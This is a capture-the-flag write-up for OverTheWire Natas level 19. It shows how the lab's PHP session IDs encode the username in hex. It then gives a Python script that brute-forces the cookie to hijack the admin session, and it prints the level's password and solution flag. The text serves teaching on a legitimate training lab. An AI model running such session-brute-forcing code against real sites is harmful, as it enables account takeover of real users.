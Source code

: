 # Natas Level 19

Access data:

    username: natas19
    password: 8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s

We are told that this is a variation of the previous challenge, but it does not use sequential session IDs. 

Playing around with different username + passwords via burp you can observe that the session ID grows with longer usernames and password does not influence the resulting value. This is not random, maybe we can understand the pattern. Let's try it a bit more systematically with these values:

    username, password = session id

    a,a = 3237382d61
    a,b = 3136332d61
    b,a = 3239372d62
    b,b = 3632392d62

The last two digits change depending on the username. They are also the hex values for the corresponding character if you consult an [ASCII Table](https://www.rapidtables.com/code/text/ascii-table.html).

If you know resend the same credentials (a, a) multiple times you'll observe that the session ID always ends with _2d61_. A bit more playing around reveals a structure like this for the session id:

      *something_that_changes* + *static_2d* + *username_in_ascii*


This means we only need _*something_that_changes*_, the rest we can predict / extract. 

Spamming a bit more, it seems like _*something_that_changes*_ are just one, two or three numbers, each of them being between 30 and 40. This was good enough for me to try to brute-force it - just guess the numbers and predict the ending of the cookie for someone with the username _admin_ and see whether we find a session we can hijack! Here is the code.

```python
    import requests, itertools

    user = "natas19"
    password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"
    url = f"http://{user}.natas.labs.overthewire.org"

    def bruteforce_session_ids(session, possibilites):
        for number_tuple in possibilites:
            sess_id = "".join(str(number) for number in number_tuple) #Join integers to string
            sess_id += "2d" #static separator
            sess_id += "61646d696e" #Ascii representation of 'admin'

            print(f"Testing: {sess_id}")
            cookies = {"PHPSESSID" : sess_id}
            resp = session.post(url, cookies=cookies) #Try to hijack the session.

            if(not "regular user" in resp.text):
                print(resp.text)
                print(f"Admin cookie: {sess_id}")
                exit("Terminating after successful attack")
            
        return False    


    with requests.Session() as session:
        session.auth = (user, password)
        auth = session.post(url)

        possibleNumbers = [30, 31, 32, 33, 34, 35, 36, 37, 38, 39] 

        combinations_of_one = list(itertools.product(possibleNumbers, repeat=1))
        combinations_of_two = list(itertools.product(possibleNumbers, repeat=2))
        combinations_of_three = list(itertools.product(possibleNumbers, repeat=3))

        bruteforce_session_ids(session, combinations_of_one)
        bruteforce_session_ids(session, combinations_of_two)
        bruteforce_session_ids(session, combinations_of_three)

```

<details>
  <summary>Solution</summary>
  Flag: guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH
</details>


